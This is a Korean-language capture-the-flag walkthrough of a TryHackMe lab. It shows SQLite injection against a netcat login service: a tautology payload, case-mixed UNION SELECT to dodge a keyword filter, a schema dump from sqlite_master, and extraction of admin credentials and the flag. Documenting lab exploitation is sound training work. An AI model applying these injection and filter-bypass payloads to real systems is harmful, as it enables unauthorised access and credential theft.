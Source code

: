 nc 10.10.169.254 1337
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: vYQ5ngPpw8AdUmL
Username not found.

PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 61:c5:06:f2:4a:20:5b:cd:09:4d:72:b0:a5:aa:ce:71 (RSA)
| 256 51:e0:5f:fa:81:64:d3:d9:26:24:16:ca:45:94:c2:00 (ECDSA)
|\_ 256 77:e1:36:3b:95:9d:e0:3e:0a:56:82:b2:9d:4c:fe:1a (ED25519)
Device type: general purpose

```bash
apt install seclists
apt install wordlists
```

nc 10.10.169.254 1337
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: 1' OR '1' = '1
Password: tF8tj2o94WE4LKC
Please enter your username: 1' OR '1' = '1'

# 결과가 참일 시에만 제대로 반응

Please enter your username: 1' OR '1' = '2'  
Error: unrecognized token: "'2'' LIMIT 30"

```bash
# sqlite DB 추측
Error: unrecognized token: "'1'' LIMIT 30"
```

Please enter your username: --
For strange reasons I can't explain, any input containing /\*, -- or, %0b is not allowed :)

' UNION SELECT 1 '
Ahh there is a word in there I don't like :(
Please enter your username:

```bash
apt install rlwarp
rlwrap nc 10.10.169.254 1337
```

# SQLite 확인

rlwrap nc 10.10.169.254 1337
Welcome to the Light database!

# input 필터링 하는 것으로 보이나 대소문자를 섞으니 뚫리는 것 확인

Ahh there is a word in there I don't like :(
Please enter your username: ' Union SElect 1 '
Password: 1
Please enter your username: ' union select 1 '
Ahh there is a word in there I don't like :(
Please enter your username:

# 왜 rlwrap nc 10.10.169.254 1337 하면 데이터베이스 같은 정보가 나올까?

rlwrap가 nc에 뭘 더해주거나 바꾸는 게 아니라, 단순히 입력받는 인터페이스에 readline 기능을 씌워줄 뿐입니다.
데이터베이스 정보가 나오는 이유는:
10.10.169.254의 1337 포트에서 Light database라는 서버가 돌고 있어서,
접속하자마자 서버가 "Welcome to the Light database!" 메시지를 보내준 거예요.
즉, nc가 그냥 TCP 연결을 열고 서버와 통신하는 역할을 하니까,
rlwrap를 썼든 안 썼든 서버가 보내는 데이터(문자열)는 똑같이 나오는 거죠.

# sqlite 특징

SELECT group_concat(sql) FROM sqlite_master;

| 컬럼명     | 설명                                              |
| ---------- | ------------------------------------------------- |
| `type`     | 객체의 유형 (`table`, `index`, `view`, `trigger`) |
| `name`     | 객체 이름                                         |
| `tbl_name` | 이 객체가 속한 테이블 이름                        |
| `rootpage` | B-트리 페이지 번호 (보통 사용 안 함)              |
| `sql`      | **해당 객체를 생성한 CREATE 구문**                |

' Union Select group_concat(sql) FROM sqlite_master '

Please enter your username' Union Select group_concat(sql) FROM sqlite_master '
Password: CREATE TABLE usertable (
id INTEGER PRIMARY KEY,
username TEXT,
password INTEGER),
CREATE TABLE admintable (
id INTEGER PRIMARY KEY,
username TEXT,
password INTEGER)

# 유니온 시 컬럼 수가 양쪽 컬럼과 안 맞다고함

' Union SElect \* FROM admintable '
Error: SELECTs to the left and right of UNION do not have the same number of result columns
Please enter your username: ' Union Select id FROM admintable '
Password: 1
Please enter your username: ' Union Select id, username FROM admintable '
Error: SELECTs to the left and right of UNION do not have the same number of result columns

# jsut select 1 column

Please enter your username: ' Union Select username FROM admintable '
Password: TryHackMeAdmin
Please enter your username: ' Union Select password FROM admintable '
Password: THM{SQLit3_InJ3cTion_is_SimplE_nO?}
Please enter your username:

```sql
# 아래 구조로 추정됨
SELECT username FROM sometable WHERE username = '<사용자 입력값>'
UNION
SELECT <컬럼> FROM <테이블> -- (인젝션)
```

# 따옴표 처리 문제 -> 시스템 내에서 '' table 등 처리하고 있어서 어려움

' Union Select password FROM usertable where username=\"smokey\" '
Error: unrecognized token: "\"
Please enter your username: ' Union Select password FROM usertable where username='smokey' '
Error: near "''": syntax error
Please enter your username:

# best

' Union Select group_concat(username || ":" || password || ":" || id) FROM admintable '

Password: TryHackMeAdmin:mamZtAuMlrsEy5bp6q17:1,flag:THM{SQLit3_InJ3cTion_is_SimplE_nO?}:2

